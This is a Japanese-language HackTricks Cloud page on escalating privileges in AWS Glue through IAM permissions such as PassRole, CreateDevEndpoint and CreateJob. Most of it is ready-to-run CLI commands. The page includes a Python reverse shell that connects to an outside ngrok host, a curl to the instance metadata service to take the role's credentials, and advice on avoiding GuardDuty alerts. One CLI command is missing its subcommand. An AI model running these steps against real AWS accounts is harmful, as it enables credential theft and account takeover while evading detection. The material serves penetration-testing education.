 # AWS - Glue特権昇格

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリに**PRを提出**することで、あなたのハッキングトリックを共有してください。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

`iam:PassRole`と`glue:CreateDevEndpoint`の権限を持つ攻撃者は、新しいAWS Glue開発エンドポイントを作成し、既存のサービスロールを渡すことができます。その後、インスタンスにSSHで接続し、AWS CLIを使用してロールがアクセス可能な権限にアクセスすることができます。
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
攻撃者は、ロールの資格情報にアクセスするために、単に**開発エンドポイントにSSH接続**する必要があります。
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
GuardDutyのドキュメントには明示的に記載されていませんが、Glueインスタンスから資格情報を外部に持ち出すことは良くありません。代わりに、**新しいインスタンスから直接AWS APIにアクセスするべきです**。

**潜在的な影響:** 指定されたGlueサービスロールへの特権昇格。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`**権限を持つ攻撃者は、**既存のGlue開発エンドポイントの関連するSSH公開鍵を更新**することができます。その後、SSHで接続し、アタッチされたロールがアクセス権を持つ権限にアクセスできます。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
攻撃者は、開発エンドポイントにSSHでアクセスするだけで、ロールの資格情報にアクセスできるようになります。AWS APIは新しいインスタンスから直接アクセスする必要があり、アラートをトリガーすることは避けるべきです。

**潜在的な影響:** 使用されているGlueサービスロールへの特権昇格。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

これらの権限を持つ攻撃者は、任意のGlueサービスアカウントを添付してジョブを作成/更新し、実行することができます。ジョブは任意のPythonコードを実行できるため、逆シェルを取得して添付されたロールのIAM資格情報を盗むことができます。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的な影響:** 指定されたGlueサービスロールへの特権昇格。

### `glue:UpdateJob`

更新権限だけでも、攻撃者は既にアタッチされているロールのIAM資格情報を盗むことができます。

**潜在的な影響:** アタッチされたGlueサービスロールへの特権昇格。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリに**PRを提出**することで、あなたのハッキングトリックを共有しましょう。

</details>
